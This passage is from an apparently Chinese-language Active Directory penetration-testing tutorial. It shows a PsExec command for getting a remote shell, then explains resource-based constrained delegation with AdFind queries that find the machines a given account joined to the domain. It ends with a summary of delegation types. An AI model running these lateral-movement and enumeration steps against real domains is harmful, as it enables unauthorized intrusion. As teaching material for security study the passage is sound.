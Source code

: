   
最后使用微软官方psexec攻击获取shell。  

```
PsExec64.exe \\emp cmd.exe

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeVqfWRRkaTXPAZbTTWmoevn9y5CvhdOdJtibicHxCricgibbhn275aMSrVGafFN4fyu8iczrtLqaicF5DOA/640?wx_fmt=png&from=appmsg "")  
# 基于资源的约束委派  
### 原理  
  
获取加域操作账号，进而拿下被该账户加域的所有机器  
### 应用场景  
  
获取加域账号。  
## 攻击方式  
  
发现完整的mS-DS-CreatorSID，通过以下命令可以看到每台机器的名称以及将他们加域的用户的SID。  

```
AdFind.exe -b &#34;DC=test,DC=com&#34; -f &#34;(&(samAccountType=805306369))&#34; cn mS-DS-CreatorSID

```

  
通过找到的SID查找某个用户  

```
AdFind.exe -b &#34;DC=test,DC=com&#34; -f &#34;(&(objectsid=S-1-5-21-3763276348-88739081-2848684050-1110))&#34; objectclass cn dn

```

  
查询域中被当前用户拉进域内的所有主机  

```
AdFind.exe -b &#34;DC=test,DC=com&#34; -f &#34;(&(samAccountType=805306369)(mS-DS-CreatorSID=S-1-5-21-3763276348-88739081-2848684050-1110))&#34; cn sAMAccountType objectCategory

```

  
如果一个账号没有mS-DS-CreatorSID，那么其是被域管拉入域内的。  
# 总结  
  
1、非约束委派就是某个主机被设置成非约束委派之后，任何用户都可以委派该主机去代替自己访问任何服务。  
  
2、约束委派就是指定任何用户都可以委派主机去访问特定的服务。而不是所有服务。  
  
3、约束委派和非约束委派都不能限制什么用户可以去委派机器，只能限制委派之后能够访问那种服务。  
  
4、非约束委派是服务账户获取到了用户的TGT，使用用户的TGT，访问该用户能够使用的所有服务。  
  
  
